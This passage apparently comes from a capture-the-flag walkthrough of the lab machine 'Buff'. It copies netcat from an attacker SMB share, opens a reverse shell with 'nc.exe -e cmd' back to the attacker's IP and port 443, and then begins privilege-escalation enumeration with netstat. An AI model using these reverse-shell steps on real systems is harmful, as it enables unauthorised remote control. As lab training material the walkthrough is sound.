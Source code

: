 
For modern Windows, I’ll have to set a username and password.

Now I’ll map that share from Buff:

    
    
    C:\xampp\htdocs\gym\upload> net use \\10.10.14.20\s /u:df df
    �PNG
    
    The command completed successfully.
    

Now copy `nc64.exe` to `programdata`, and connect back with a shell:

    
    
    C:\xampp\htdocs\gym\upload> copy \\10.10.14.20\share\nc64.exe \programdata\nc.exe
    �PNG
    
            1 file(s) copied.
            
    C:\xampp\htdocs\gym\upload> \programdata\nc.exe -e cmd 10.10.14.20 443
    

At my window with a `nc` listener, I get a shell:

    
    
    root@kali# rlwrap nc -lvnp 443                             
    Ncat: Version 7.80 ( https://nmap.org/ncat ) 
    Ncat: Listening on :::443                                                                 
    Ncat: Listening on 0.0.0.0:443                                                            
    Ncat: Connection from 10.10.10.198.                                                       
    Ncat: Connection from 10.10.10.198:50577.    
    Microsoft Windows [Version 10.0.17134.1550]  
    (c) 2018 Microsoft Corporation. All rights reserved.                                      
                                                                                              
    C:\xampp\htdocs\gym\upload>
    

Now I have a solid, persistent shell.

## Priv: shaun –> administrator

### Enumeration

#### Netstat

Checking the `netstat` shows two ports listening only on localhost. 3306 is
MySQL, which makes sense for the PHP site and XAmpp stack. The other is 8888:

    
    
    C:\>netstat -ano | findstr TCP | findstr ":0"
    netstat -ano | findstr TCP | findstr ":0"
      TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       952
      TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5952
      TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       5772
      TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       4140
      TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       512
      TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1032
      TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1532
      TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2196
      TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       660
      TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       684
      TCP    10.10.10.198:139       0.0.0.0:0              LISTENING       4
      TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       7088
      TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       2820
      TCP    [::]:135               [::]:0                 LISTENING       952
      TCP    [::]:445               [::]:0                 LISTENING       4
      TCP    [::]:7680              [::]:0                 LISTENING       5772
      TCP    [::]:8080              [::]:0                 LISTENING       4140